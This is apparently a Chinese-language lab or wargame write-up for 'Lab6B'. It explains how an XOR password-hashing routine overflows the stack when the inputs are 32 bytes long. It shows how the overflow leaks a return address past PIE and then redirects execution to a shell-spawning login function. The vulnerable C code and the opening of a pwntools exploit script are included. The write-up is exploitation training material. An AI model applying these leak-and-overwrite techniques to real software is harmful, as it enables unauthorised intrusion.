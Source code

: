 利用效果如图：

![][2]

## Lab6B

此题大眼一看貌似没问题，和上一题类似也提供了个login函数会执行system shell，所以有可能配合一个地址写的漏洞跳转至该函数。除了几个功能函数，最可疑和别扭的就是hash_pass函数：

```c
void hash_pass(char * password, char * username)
{
    int i = 0;

    /* hash pass with chars of username */
    while(password[i] && username[i])
    {
        password[i] ^= username[i];
        i++;
    }

    /* hash rest of password with a pad char */
    while(password[i])
    {
        password[i] ^= 0x44;
        i++;
    }

    return;
}
…
int login_prompt(int pwsize, char * secretpw)
{
    char password[32];
    char username[32];

…
        printf("Authentication failed for user %s\n", username);
```

按照输入的username和password大小来分三种情况对比貌似没问题，但如果两者的长度都是32位，那么username就指向原来password的位置，password指向向下的栈空间，在没有遇到null字符前则会破坏保存的返回地址，下图可证（0x15为之前函数调用过程中的压栈参数）：

![][3]

现在靠着xor一直写到了ret_addr+1的位置，结合最后对username %s的输出，则可以一直输出至ret_addr+1，根据前面的xor操作轻松逆推处返回函数的地址。因为PIE后函数代码的相对位移是不变的，即可泄露计算出login的地址。

最终我们泄露出了函数地址，并且对返回地址可xor，因为username，pssword和原始的返回地址都是我们可知可控的，通过xor操作即可任意写返回地址。利用代码如下：

```python
#!/usr/bin/env python

from pwn import *

# context.log_level = 'debug'
p = process('./lab6B')
p.recvuntil('username: ')
first_username = 'A'*32
p.sendline(first_username)
p.recvuntil('password: ')
first_password = 'B'*32
p.sendline(first_password)

first_stack = p.recvn(0x5f) #add 1 bug
first_rest = p.recvn(0x19)
first_ret = first_rest[-5:-1]
```

[1]: https://wx4.sinaimg.cn/large/ee2fecafly1fphgg3z7b8j20k503774o.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fphgg5021ej20it03mmxo.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg5u6vwj20ja03k0sy.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1fphgg6sr8vj20vf06njs7.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg8rdztj20mt0bita8.jpg